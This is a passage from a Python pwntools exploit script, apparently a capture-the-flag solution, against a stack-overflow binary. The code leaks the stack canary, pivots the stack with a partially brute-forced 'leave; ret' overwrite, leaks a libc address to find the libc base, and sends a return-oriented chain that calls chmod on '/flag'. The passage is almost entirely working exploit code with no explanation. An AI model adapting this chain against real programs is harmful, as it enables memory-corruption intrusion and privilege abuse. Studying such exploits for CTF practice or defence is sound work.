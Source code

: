 ```python
                p.sendline(canary_address)
                p.recvuntil(b' = ')
                canary = int(p.recv(18), 16)
                assert(canary & 0xff == 0)
                print(f'canary:{hex(canary)}')
            
                # PHASE 1.0 - pivot stack
                buf_1 = b'\x41' * padding
                buf_1 += p64(canary)
                buf_1 += p64(input_addr + 0x80 - 8)  # new value for rbp, which will be rsp soon. point towards the _start fp within the stack        
                buf_1 += b'\xc8\xc8\x63'  # leave; ret - 0x578c8. BF of 3 bytes
                p.send(buf_1)

                # PHASE 2.0 - leak libc value
                time.sleep(0.05)
                p.recvuntil(b'is located at: ')
                input_addr = int(p.recv(14), 16)
                ra_address = hex(input_addr + padding + 0x10)  # ra points to libc
                p.sendline(ra_address)
                p.recvuntil(b' = ')
                libc_leak = int(p.recv(18), 16)
                libc_base = libc_leak - 0x24083
                assert(libc_base & 0xfff == 0)
                print(f'libc_base:{hex(libc_base)}')

                # PHASE 3 - trigger libc gadgets
                pop_rdi_ret = libc_base + libc_pop_rdi_ret
                pop_rsi_ret = libc_base + libc_pop_rsi_ret
                libc_chmod_addr = libc_base + libc_chmod
                flag_addr = input_addr + 0x100
                buf_3 = b'\x41' * padding
                buf_3 += p64(canary)
                buf_3 += p64(0x4242424242424242)  # new value for rbp     
                buf_3 += p64(pop_rdi_ret)  # pop rdi; ret
                buf_3 += p64(flag_addr)
                buf_3 += p64(pop_rsi_ret)  # pop rsi; ret
                buf_3 += p64(0xffff)
                buf_3 += p64(libc_chmod_addr)  # chmod call
                buf_3 += b'/flag\x00\x00\x00' * 0x50
                p.send(buf_3)
                p.recvuntil(b'Goodbye!')

            except Exception as e:
                pass


if __name__ == '__main__':
    main()
```
